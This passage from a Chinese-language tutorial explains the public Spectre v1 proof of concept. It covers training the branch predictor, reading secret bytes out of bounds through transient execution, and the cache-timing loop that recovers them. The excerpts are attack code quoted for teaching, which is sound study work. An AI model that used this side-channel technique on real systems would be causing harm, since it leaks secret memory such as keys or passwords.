 ```cpp
x = training_x ^ (x & (malicious_x ^ training_x));
```

这一句的作用：当j % 6的值为0时，也就是j能被6整除时，让x的值为malicious\_x；当j % 6的值不为0时，也就是j不能被6整除时，让x的值为training\_x。由于`training_x = tries % array1_size;`，所以，training\_x的值总是小于array1\_size，也就意味着它总能使得victim\_function函数中的if表达式成立。

因此，在这30次循环中，先用training\_x训练5次分支预测器，然后，在通过malicious\_x在瞬态执行过程中越界访问一个字节的机密数据；之后，再训练5次分支预测器，再通过瞬态执行越界访问一个字节的机密数据；依此类推。

```cpp
            /* Call the victim! */
            victim_function(x);
```

因此，分支预测器的训练和瞬态执行，都是通过上面的victim\_function函数完成的。对于同一个字节，经过五次读取后，基本就能确保已经读入缓存中了。这样，我们就可以通过缓存侧信道，利用缓存命中的情况下访问时间较短来间接推断出瞬态执行过程中读取的内容了。

为此，我们需要遍历array2数组第0列中的所有元素：

```cpp
        /* Time reads. Order is lightly mixed up to prevent stride prediction */
        for (i = 0; i < 256; i++)
        {
            mix_i = ((i * 167) + 13) & 255;
            addr = &array2[mix_i * 512];
            time1 = __rdtscp(&junk); /* READ TIMER */
            junk = *addr; /* MEMORY ACCESS TO TIME */
            time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
            if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
                results[mix_i]++; /* cache hit - add +1 to score for this value */
        }
```

在这个过程中，有一个问题需要注意：一方面，对于array2数组第0列中的所有元素，要确保每行都读一遍，不重不漏；同时，我们还不能按顺序读取。因为，如果顺序读取的话，编译器就可能猜出下一步它将访问哪个字节，并进行相应的优化处理，导致没有读入缓存的字节的元素的读取时间也很快，这样就没法区分哪行读入缓存了，哪行没有读入缓存了。为此，可以使用下面的语句：

```cpp
            mix_i = ((i * 167) + 13) & 255;
```

它的作用就是将0-255之间这些数的顺序打乱，下面，我们用python测试一下：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-258409dc6a3f5cd2c8fcdfcd66c21ea47c05ea95.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-258409dc6a3f5cd2c8fcdfcd66c21ea47c05ea95.png)

下面的这一句：

```cpp
            addr = &array2[mix_i * 512];
```

它的作用是保存array2数组第0列中某行（行号有些随机，而非顺序的）元素的地址。然后，我们开始计算读取这个元素所需的时钟周期数量：

```cpp
            time1 = __rdtscp(&junk); /* READ TIMER */
            junk = *addr; /* MEMORY ACCESS TO TIME */
            time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
            if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
                results[mix_i]++; /* cache hit - add +1 to score for this value */
        }
```
